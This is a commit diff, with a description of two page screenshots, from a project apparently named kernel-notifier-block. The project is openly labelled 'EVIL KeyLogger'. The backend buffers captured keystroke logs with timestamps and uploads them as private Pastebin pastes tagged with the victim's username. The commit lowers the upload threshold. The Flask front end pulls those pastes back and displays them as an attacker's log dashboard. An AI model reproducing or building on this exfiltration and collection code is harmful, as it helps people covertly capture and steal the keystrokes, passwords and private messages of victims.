

Before and after one commit to yo0x/kernel-notifier-block, a Flask app: template FE/templates/logs.html in a window 1280 px wide. Shown: the top 418 px of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
finished

```diff
--- a/BE/log_sender.py
+++ b/BE/log_sender.py
@@ -22,7 +22,6 @@ def get_timestamp_str():
 
 # Define API & connect to pastebin
 def get_pastebin_api():
-
     load_dotenv()
     api_dev_key = en['API_DEV_KEY']
     username = en['P_USERNAME']
@@ -62,7 +61,8 @@ def fill_buffer_upload(myInode, uploadInterval):
         bufferToUp[get_timestamp_str()]= f.read()
         print(bufferToUp)
         print("DEBUGGING SIZE: {} \n".format(sys.getsizeof(bufferToUp)))
-        if(sys.getsizeof(bufferToUp)>700):
+        print(">>>>".format(api))
+        if(sys.getsizeof(bufferToUp)>200):
             data = json.dumps(bufferToUp)
             result = api.paste(data, guest=False, name="Logs for: {}".format(getpass.getuser()), format='json', private='2', expire='1H')
             sleep(2)
--- a/FE/main.py
+++ b/FE/main.py
@@ -1,6 +1,8 @@
 from flask import Flask, render_template, url_for, request, redirect
 import sys
 import os
+import time
+from xml.etree import ElementTree
 current = os.path.dirname(os.path.realpath(__file__))
 parent = os.path.dirname(current)
 sys.path.append(parent)
@@ -12,21 +14,35 @@ import xmltodict
 app = Flask(__name__)
 
 def latestLogs():
+
    try:
         api = get_pastebin_api()
-        print(api)
+        print("API ".format(api))
    except Exception as e:
+        print("DEBB NONO \n")
         print(e)
-#    print(thisRes['paste']['paste_key'])
    #Get all pastes
-   thisRes = xmltodict.parse(api.list_pastes())
-   print(thisRes)
-   logsIn = []
-   for paste in thisRes:
-       logsIn.append(json.loads(api.raw_pastes(paste['paste']['paste_key'])))
+   try:
+       print(api.list_pastes())
+       raw_pastes = []
+       new_dic = {}
+       thisRes = api.list_pastes()
+       xml = ElementTree.fromstring('<list>' + thisRes + '</list>')
+       result = xml.findall(".//paste/paste_key")
+       for i in result:
+           raw_pastes.append(json.loads(api.raw_pastes(i.text)))
+           time.sleep(1)
+           print(i.text)
+       for a in raw_pastes:
+           print(a)
+       for soloPaste in raw_pastes:
+           for new_k in soloPaste:
+               new_dic[new_k] = soloPaste[new_k]
 
-   return logsIn
-#    return(api.raw_pastes())
+
+   except Exception as e:
+       print(e)
+   return(new_dic)
 
 
 
@@ -34,6 +50,9 @@ def latestLogs():
 
 @app.route('/')
 def hello():
-
-    logs = latestLogs()
-    return render_template('logs.html', logs = logs)
+    dic_json = latestLogs()
+    for key in dic_json:
+        print(key)
+        print(dic_json[key])
+    #return "Hello{}".format(logs)
+    return render_template('logs.html', logs =dic_json )
--- a/FE/templates/logs.html
+++ b/FE/templates/logs.html
@@ -1,5 +1,6 @@
 <!DOCTYPE html>
 <html lang="en">
+
 <head>
   <title>EVIL KeyLogger</title>
   <meta charset="utf-8">
@@ -8,6 +9,7 @@
   <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
   <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.4.1/js/bootstrap.min.js"></script>
 </head>
+
 <body>
 
   <div class="container">
@@ -16,11 +18,18 @@
       <p>Some Evil key logger!</p>
       <p>Here are the LOGS:</p>
     </div>
-  <table>
-{% for key, value in logs.iteritems() %}
+    <table class="table">
       <tr>
-        <th> {{ key }} </th>
-        <td> {{ value }} </td>
+
+        <td>TIME</td>
+        <td>LOGS</td>
+
+      </tr>
+
+      {% for key in logs %}
+      <tr>
+        <td> {{ key }} </td>
+        <td> {{ logs[key] }} </td>
       </tr>
       {% endfor %}
     </table>
@@ -28,4 +37,5 @@
 
 
 </body>
+
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
